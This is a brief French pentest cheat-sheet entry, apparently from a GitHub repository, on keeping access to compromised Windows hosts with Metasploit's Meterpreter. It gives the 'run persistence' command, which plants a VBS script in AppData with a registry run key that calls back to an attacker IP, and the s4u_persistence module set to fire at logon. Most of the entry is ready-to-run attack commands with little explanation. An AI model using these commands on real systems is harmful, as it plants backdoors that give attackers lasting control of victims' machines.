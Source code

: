 # Meterpreter

**All Level Persistence**

Elle consiste a utiliser la persistance inclure dans metasploit qui va installer un script VBS dans le AppData de l'utilisateur et crée une clé de registre pour que ce dernier soit exécuter au démarrage de sa session.

```sh
run persistence -X -i 10 -r <ATTACKER-IP> -p PORT
```


**Admin Level Persistence**

On peut aussi utiliser une persistance de metasploit

```sh
use exploit/windows/local/s4u_persistence
set SESSIONS <ID>
set trigger logon

# Modifier le port du listenner donner le nouveau fournir par le module
```

